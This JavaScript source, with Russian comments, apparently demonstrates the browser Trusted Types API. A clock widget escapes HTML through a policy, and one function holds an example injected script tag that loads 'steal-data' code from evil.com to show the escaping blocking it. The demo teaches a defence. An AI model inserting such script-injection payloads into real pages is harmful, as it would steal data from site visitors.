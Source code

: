 ```js
// политика доверенных типов
let policy
if (window.trustedTypes && trustedTypes.createPolicy) {
 policy = trustedTypes.createPolicy('escapePolicy', {
   createHTML: (str) => str.replace(/\</g, '&lt').replace(/>/g, '&gt')
 })
}

// утилиты
// для получения ссылки на DOM-элемент
const getEl = (selector, parent = document) => parent.querySelector(selector)
// для форматирования даты и времени
const getDate = (options, locale = 'ru-RU', date = Date.now()) =>
 new Intl.DateTimeFormat(locale, options).format(date)
// для регистрации обработчика
const on = (el, cb, event = 'click', options = { once: true }) =>
 el.addEventListener(event, cb, options)

// ссылки на DOM-элементы
const containerEl = getEl('.container')
const dateEl = getEl('.date', containerEl)
const timeEl = getEl('.time', containerEl)
const stopBtnEl = getEl('.btn-stop', containerEl)
const addBtnEl = getEl('.btn-add', containerEl)
const getBtnEl = getEl('.btn-get', containerEl)

// настройки для даты
const dateOptions = {
 weekday: 'long',
 day: 'numeric',
 month: 'long',
 year: 'numeric'
}
// настройки для времени
const timeOptions = {
 hour: 'numeric',
 minute: 'numeric',
 second: 'numeric'
}

// добавляем текущую дату в качестве текстового содержимого соответствующего элемента
dateEl.textContent = getDate(dateOptions)
// добавляем текущее время в качестве текстового содержимого соответствующего элемента каждую секунду
const timerId = setInterval(() => {
 timeEl.textContent = getDate(timeOptions)
}, 1000)

// колбэки для обработчиков (в каждом колбэке происходит удаление соответствующей кнопки)
// для остановки таймера
const stopTimer = () => {
 clearInterval(timerId)
 stopBtnEl.remove()
}
// для добавления HTML-шаблона с потенциально вредоносным кодом
const addTemplate = () => {
 const evilTemplate = `<script src="https://evil.com/steal-data.min.js"></script>`
 // при попытке вставить необезвреженный шаблон будет выброшено исключение
 // Uncaught TypeError: Failed to execute 'insertAdjacentHTML' on 'Element': This document requires 'TrustedHTML' assignment.
 containerEl.insertAdjacentHTML('beforeend', policy.createHTML(evilTemplate))
 addBtnEl.remove()
}
```